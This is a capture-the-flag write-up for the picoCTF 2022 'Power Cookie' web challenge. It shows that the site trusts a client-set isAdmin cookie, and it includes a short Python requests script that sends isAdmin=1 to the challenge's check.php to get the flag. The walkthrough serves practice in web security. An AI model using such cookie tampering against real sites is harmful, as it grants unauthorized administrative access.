

# picoCTF 2022 - Power Cookie

Given the name of the challenge, it likely involves cookies.

When you click the 'Continue as guest' button, you are redirected to `/check.php` and is shown `We apologize, but we have no guest services at the moment.`

Go back to the previous page. Open the inspector tab (right click > Inspect) on your web browser.

Under sources or debugger (may vary depending on web browser), notice that there is a `guest.js` file. Click to view it.

```js
function continueAsGuest()
{
  window.location.href = '/check.php';
  document.cookie = "isAdmin=0";
}
```

That means when you click the button to 'Continue as guest', they will set your cookie to be `isAdmin=0`.

It can then be inferred thaat to get the flag, we need our cookie to be `isAdmin=1`. So, let's modify our cookie!

This can be done in a multiple of ways:

1. Use a browser extension (e.g. [`Cookie Editor for firefox`](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/)). 
    - Simply modify the cookie value to 1 and refresh the page to get the flag.



2. Use burpsuite to modify your request. This is left as an exercise for the reader.

3. Use python requests (refer to [`solve.py`](solve.py))
    - This script requests `/check.php` with a cookie of `isAdmin=1`

```py
import requests

url = 'http://chal1.sieberr.live:10011/check.php'

cookies = {'isAdmin':'1'}

r = requests.get(url, cookies=cookies)
print(r.text)
```

